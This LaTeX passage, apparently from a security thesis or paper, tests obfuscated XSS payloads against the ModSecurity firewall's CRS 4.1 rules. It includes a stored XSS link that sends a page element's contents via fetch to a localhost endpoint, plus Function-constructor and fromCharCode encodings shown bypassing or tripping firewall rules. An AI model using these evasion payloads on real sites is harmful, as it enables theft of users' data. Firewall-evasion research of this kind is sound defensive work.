 \begin{lstlisting}[style=basicStyle, caption=stored xss bypass payload]
<a href=j&#97vascript:var secret = document.getElementsByName('name')[0]&#46innerHTML;var data = {body:secret,method:'POST'};fetch('http:\//localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a>
\end{lstlisting}

\subsubsection{Function constructor + String concatenation + From charcode}
\label{sec:charcodemultiiter}
Following up on the idea to split the character sequence \verb|String.fromCharCode| into multiple segments, which was stated during the single iteration evaluation under Section~\ref{sec:charcodesingleiter}, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
String.fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)
\end{lstlisting}

was split into two parts using the function constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}

This payload successfully bypasses the ModSecurity firewall configured to use the CRS4.1. In order to make this payload execute by itself, another use of the function constructor and string concatenation was applied:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')();
\end{lstlisting}

On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload>
[].map.constructor('[].map.constructor(' + 'String.' + 'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)' + ')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}

